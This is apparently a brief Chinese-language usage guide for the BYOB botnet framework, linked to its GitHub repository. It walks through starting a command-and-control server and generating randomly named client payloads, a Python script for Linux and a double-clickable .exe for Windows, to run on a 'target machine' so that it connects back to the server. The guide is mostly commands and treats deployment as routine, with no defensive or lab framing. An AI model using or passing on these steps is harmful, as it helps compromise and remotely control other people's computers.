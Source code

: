**1、安装环境(根目录下执行)：**

```
	python setup.py install
```



**2、先运行server.py：**

```
python server.py --host <YOUR-SERVER-IP> --port <DESIRED-PORT>
```



**3、目标机上运行client.py，假定server的IP地址为127.0.0.1，端口为33306****

**对于linux目标机：**

```
python client.py 127.0.0.1 33306
```

这将在根目录下生成一个随机命名的python文件，假定为byob_wRV.py，运行这个文件

```
python byob_wRV.py
```

一旦运行，server端便能接受到

**对于windows目标机：**

```
python client.py 127.0.0.1 33306 --freeze
```

这将产生一个随机命名的.exe文件，在dist目录中，双击便可运行

一旦运行，server端便能接受到



源码地址： https://github.com/malwaredllc/byob 